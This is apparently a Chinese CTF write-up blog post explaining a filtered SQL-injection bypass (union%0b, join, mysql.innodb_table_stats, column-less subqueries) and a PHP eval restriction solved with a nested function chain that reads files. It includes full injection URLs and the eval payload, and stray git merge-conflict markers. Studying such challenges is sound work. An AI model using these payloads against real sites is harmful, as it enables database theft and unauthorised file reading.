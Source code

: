 ```yaml
---

layout:     post                    # 使用的布局（不需要改）
title:      对两道CTF题目的研究               # 标题 
subtitle:    #副标题
date:       2019-11-15              # 时间
author:     Von                      # 作者
header-img: img/post-bg-swift.jpg
catalog: true                       # 是否归档
tags:                               #标签
    - Web
    - CTF
    - SQL
    - PHP 

---
```


# sql注入
首先经过fuzz,得出主要过滤了以下字符:
```  sql
and(&&) or(||) , max min -- xor ^  updatexml sleep if (union select) 
```
首先union select我们可以用union%0b绕过,至于逗号我们可以用join绕过。但是最蛋疼的是or被过滤，而我们的information_schema中有or,看了wp才了解了一种新的方法。

在此之前我们先来学习一下相关的知识。

## mysql.innodb_table_stats表
在mysql5.6以上的版本中，会在系统库MYSQL库中存在两张与innodb相关的表innodb_index_stats和innodb_table_stats。
其中innodb_index_stats存储的是innodb引擎的库名,表名及其对应的索引名称，也就是和information_schema.schemata差不多。
innodb_table_stats存储的是innodb引擎的库名和表名,也就是和information_schema.tables差不多。
其结构如下:
![](/img/SQLI1.png)
那么也就意味着我们可以在注入中使用如:
``` sql
group_concat(table_name) from mysql.innodb_table_stats where database_name = database()
```
来代替:
``` sql
group_concat(table_name) from information_schema.tables where table_schema = database()
```
当然，这种方法的缺点就是它没有像information_schema.columns一样的表，所以没有办法用这种方法爆出列名，因此就需要借助我们接下来的子查询了。

## 子查询
> 子查询是将一个查询语句嵌套在另一个查询语句中。在特定情况下，一个查询语句的条件需要另一个查询语句来获取，内层查询(inner query)语句的查询结果，可以为外层查询(outer query)语句提供查询条件。

<<<<<<< HEAD
=======

>>>>>>> 048331976a892cf4bb8a38dd87dbd6a45bbfce68
我们先来看一个例子:
``` sql
select 1,2,3,4,5,6,7,8 union select * from users
select (select 1)a,(select 2)b,(select 3)c,(select 4)d,(select 5)e,(select 6)f,(select 7)g,(select 8)h union select * from users
```
![](/img/SQLI2.png)
可以看出，在我们不知道列名的情况下我们得到了一个新表，并且将列名用1，2，3代替了。  
接下来就可以利用子查询将数据归并。
``` sql
select `3` from (select 1,2,3,4,5,6,7,8 union select * from users)a limit 1 offset 1;
select x.3 from (select * from (select 1)a,(select 2)b,(select 3)c,(select 4)d,(select 5)e,(select 6)f,(select 7)g,(select 8)h union select * from users)x limit 1 offset 1;
```
![](/img/SQLI3.png)

## 解决
所以我们可以构造出相应的payload:
``` sql
/article.php?id=0' union%0bselect * from (select 1)a join (select 2)b join (select 3)c join (select 4)d%23
/article.php?id=0' union%0bselect * from (select 1)a join (select (select group_concat(table_name) from mysql.innodb_table_stats where database_name like database()))b join (select 3)c join (select 4)d%23
/article.php?id=0' union%0bselect * from (select 1)z join (select i.3 from (select * from (select 1)a join (select 2)b join (select 3)c union%0bselect * from fl111aa44a99g)i limit 1 offset 1)x join (select 3)v join (select 3)n%23
```

# Decade
先来看核心代码:
``` php
<?php 
$code=@$_POST['code'];
if (';' === preg_replace('/[a-z]+\((?R)?\)/', NULL, $code)) {
                if (preg_match('/et|na|nt|strlen|info|path|rand|dec|bin|hex|oct|pi|exp|log/i', $code)) {
                    echo 'bye~';
                } else {
                    @eval($code);
                }
                }
else
{
    echo 'NO first';
}

?>
```

题目通过正则表达式来限制传入函数的模式只能为a(b(c()));类似的嵌套模式。同时还过滤了一些函数。首先我们需要读取文件，想到的是scandir();
但是无论是读取本文件夹的文件还是其他的我们都需要有个.。首先我们就要来考虑如何通过各种函数获取.。  

## 获取.。  
``` php
<?php
echo pos(localeconv());
# .
echo chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))));
# .
?>
```
通过上面两种操作我们可以得到.

## 进行chdir()
以上这两种办法可以得到.但是我们发现该文件夹里面只有一个index.php，所以我们需要跳到上一级目录，也就是进行chdir('...').  
至于如何获取...呢?scandir(’.’)扫描当前目录后回显是’.’,’…’，第二个元素是…,所以还需要通过chdir("…")来切换目录,chdir()的返回值为1.  

## 再次得到.
chdir()的返回值为1,我们需要从1得到.来让scandir()再次读取目录,我们可以用chr(46)得到.，所以问题就转化成如何从1得到46。  
其中一种方法是通过time()函数,该函数可参数可以随意传  
``` php
pos(localtime(time()));
```
该操作会返回一个0-60的值。  
故有最终payload:
``` php
code=echo(readfile(end(scandir(chr(pos(localtime(time(chdir(next(scandir(pos(localeconv()))))))))))));
```
多次发包即可得到flag.

# 参考文章
[CSDN的文章](https://blog.csdn.net/qq_40884727/article/details/102924492)  
[简书的文章](https://www.jianshu.com/p/6eba3370cfab)
